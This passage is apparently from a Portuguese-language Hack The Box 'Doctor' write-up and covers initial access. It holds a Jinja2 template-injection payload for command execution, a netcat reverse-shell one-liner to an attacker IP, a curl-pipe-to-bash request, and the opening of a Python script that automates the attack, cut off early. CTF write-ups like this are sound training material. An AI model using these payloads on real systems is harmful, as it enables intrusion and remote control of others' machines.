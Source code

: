 ## Acesso inicial

Após confirmado que um payload para Jinja2 deveria ser utilizado, foi possível obter um shell reverso na máquina através do seguinte processo:

- Em uma pasta na máquina do atacante, criei um arquivo de payload contendo a string que, uma vez executada, nos retornaria um shell reverso na porta 4443;

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
```
  
- Este arquivo foi publicado a partir de um server HTTP simples utilizando python3, conforme execução do comando abaixo a partir do diretório onde o arquivo criado está localizado;

```bash
  sudo python3 -m http.server 80
```
  
- No portal, criei um novo post inserindo no lugar da string `title`, o conteúdo obtido no link acima citado do PayloadsAllTheThings. Este especificamente é bem interessante, pois nos permite executar comandos de forma dinâmica a partir do conteúdo recebido da variável **input** em um request do tipo GET, evitando assim modificar frequentemente o conteúdo da injeção:

```python
{% raw %}{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}{% endraw %}
```

- Iniciei um listener usando netcat para ouvir na porta configurada no payload usando o comando abaixo;

```bash
nc -lnvp 4443
```

- E depois fiz um request no portal, passando o comando que gostaria de ser executado na query string com o comando no input que gostaria que fosse executado.

```bash
http://doctors.htb/archive?input=curl%20-L%20http://10.10.10.10/payload%20|%20bash
```

- E voilá! Recebi um shell reverso :smiley:

![HTB Doctor - Exploit](https://i.imgur.com/j9kreyv.png){: .align-center}

**Bônus**: Pra facilitar na reobtenção deste acesso inicial, uma vez que a conta criada tem a validade curta de 20 min, criei um script simples em python para esta tarefa :smiley:.​ Para usá-lo basta configurar o listener e o webserver, da mesma forma que faríamos no método 100% manual, com a diferença de que o script irá recriar o usuário, configurar o payload malicioso na mensagem e fazer o request retornando o shell reverso novamente.
{: .notice--info}

```python
#!/usr/bin/python3

import requests

url = 'http://doctors.htb'
username = 'dummy'
password = 'P@ssw0rd'
ip = '10.10.10.10'
email = username+'@doctors.htb'

# Create new session
s = requests.session()

# Make initial request to get required cookies
r = s.get(url)
```